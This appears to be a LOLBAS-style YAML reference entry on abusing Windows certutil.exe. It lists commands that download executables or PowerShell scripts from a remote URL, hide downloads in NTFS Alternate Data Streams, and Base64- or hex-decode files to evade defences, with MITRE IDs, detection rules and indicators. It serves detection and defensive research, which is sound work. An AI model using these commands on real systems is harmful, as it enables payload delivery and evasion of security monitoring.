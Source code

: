 ```yaml
---
Name: Certutil.exe
Description: Windows binary used for handling certificates
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: certutil.exe -urlcache -f {REMOTEURL:.exe} {PATH:.exe}
    Description: Download and save an executable to disk in the current folder.
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: certutil.exe -verifyctl -f {REMOTEURL:.exe} {PATH:.exe}
    Description: Download and save an executable to disk in the current folder when a file path is specified, or `%LOCALAPPDATA%low\Microsoft\CryptnetUrlCache\Content\<hash>` when not.
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: certutil.exe -urlcache -f {REMOTEURL:.ps1} {PATH_ABSOLUTE}:ttt
    Description: Download and save a .ps1 file to an Alternate Data Stream (ADS).
    Usecase: Download file from Internet and save it in an NTFS Alternate Data Stream
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: certutil.exe -URL {REMOTEURL:.exe}
    Description: Download and save an executable to `%LOCALAPPDATA%low\Microsoft\CryptnetUrlCache\Content\<hash>`.
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Application: GUI
  - Command: certutil -encode {PATH} {PATH:.base64}
    Description: Command to encode a file using Base64
    Usecase: Encode files to evade defensive measures
    Category: Encode
    Privileges: User
    MitreID: T1027.013
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: certutil -decode {PATH:.base64} {PATH}
    Description: Command to decode a Base64 encoded file.
    Usecase: Decode files to evade defensive measures
    Category: Decode
    Privileges: User
    MitreID: T1140
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: certutil -decodehex {PATH:.hex} {PATH}
    Description: Command to decode a hexadecimal-encoded file.
    Usecase: Decode files to evade defensive measures
    Category: Decode
    Privileges: User
    MitreID: T1140
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\certutil.exe
  - Path: C:\Windows\SysWOW64\certutil.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_certutil_download.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_certutil_encode.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_certutil_decode.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/4a11ef9514938e7a7e32cf5f379e975cebf5aed3/rules/windows/defense_evasion_suspicious_certutil_commands.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/command_and_control_certutil_network_connection.toml
  - Splunk: https://github.com/splunk/security_content/blob/3f77e24974239fcb7a339080a1a483e6bad84a82/detections/endpoint/certutil_download_with_urlcache_and_split_arguments.yml
  - Splunk: https://github.com/splunk/security_content/blob/3f77e24974239fcb7a339080a1a483e6bad84a82/detections/endpoint/certutil_download_with_verifyctl_and_split_arguments.yml
  - Splunk: https://github.com/splunk/security_content/blob/3f77e24974239fcb7a339080a1a483e6bad84a82/detections/endpoint/certutil_with_decode_argument.yml
  - IOC: Certutil.exe creating new files on disk
  - IOC: Useragent Microsoft-CryptoAPI/10.0
  - IOC: Useragent CertUtil URL Agent
Resources:
  - Link: https://twitter.com/Moriarty_Meng/status/984380793383370752
  - Link: https://twitter.com/mattifestation/status/620107926288515072
  - Link: https://twitter.com/egre55/status/1087685529016193025
  - Link: https://www.hexacorn.com/blog/2020/08/23/certutil-one-more-gui-lolbin/
Acknowledgement:
  - Person: Matt Graeber
    Handle: '@mattifestation'
  - Person: Moriarty
    Handle: '@Moriarty_Meng'
  - Person: egre55
    Handle: '@egre55'
  - Person: Lior Adar
  - Person: Adam
    Handle: '@hexacorn'
  - Person: SomeTestLeper
    Handle: '@SomeTestLeper'
---
```

